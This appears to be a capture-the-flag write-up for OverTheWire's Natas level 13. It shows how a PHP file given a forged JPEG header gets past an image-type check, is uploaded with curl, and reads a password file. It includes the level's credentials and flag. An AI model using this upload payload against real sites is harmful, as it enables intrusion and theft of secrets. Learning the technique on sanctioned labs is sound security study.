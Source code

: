 # Natas13

*	user: `natas13`
*	pass: `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`
*	url: `http://natas13.natas.labs.overthewire.org`
*	flag: `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`

## Procedure

1.	It seems to be the same approach of Natas12 but now, the file's
	signature is checked with the PHP function `exif_imagetype()`.
	According to documentation indeed, such function

		reads the first bytes of an image and checks its signature.

2.	JPEG signature is `0xFF 0xD8 0xFF 0xE0`, so let's start by forging
	a JPEG file

		$ echo -e "\xFF\xD8\xFF\xE0" > image.php
		$ file image.php
		image.php: JPEG image data

	Now append the PHP code

		$ echo -n '<?php $p = file_get_contents("/etc/natas_webpass/natas14"); echo $p; ?>' >> image.php
		$ file image.php
		image.php: JPEG image data

3.	Upload the "image" as in Natas12

		$ curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY -F filename=image.php -F uploadedfile=@image.php http://natas13.natas.labs.overthewire.org/
		<html>
		<head>
		[cut]
		</head>
		<body>
		<h1>natas13</h1>
		<div id="content">
		For security reasons, we now only accept image files!<br/><br/>

		The file <a href="upload/7q86uwt60z.php">upload/7q86uwt60z.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		</div>
		</body>
		</html>

	and check the content

		$ curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY http://natas13.natas.labs.overthewire.org/upload/7q86uwt60z.php
		����Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
